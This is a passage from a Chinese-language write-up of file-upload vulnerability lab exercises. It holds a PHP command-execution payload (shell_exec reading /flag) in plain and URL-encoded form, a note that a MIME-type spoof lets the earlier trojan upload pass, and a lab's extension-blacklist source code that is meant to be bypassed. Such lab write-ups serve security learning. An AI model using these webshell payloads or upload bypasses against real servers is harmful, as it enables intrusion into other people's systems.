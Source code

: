 Payload (URL encoded)

```php
$ret=shell_exec("cat /flag");echo $ret;

%24%72%65%74%3d%73%68%65%6c%6c%5f%65%78%65%63%28%22%63%61%74%20%2f%66%6c%61%67%22%29%3b%65%63%68%6f%20%24%72%65%74%3b
```

## Lab02

同lab01，服务端对MIME进行检查，lab01的木马上传方式仍然有效（MIME为 `iamge/jpeg`）

> text/plain （纯文本）
> text/html （HTML文档）
> text/javascript （js代码）
> application/xhtml+xml （XHTML文档）
> image/gif （GIF图像）
> image/jpeg （JPEG图像）
> image/png （PNG图像）
> video/mpeg （MPEG动画）
> application/octet-stream （二进制数据）
> application/pdf （PDF文档）

## lab03

source: 
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
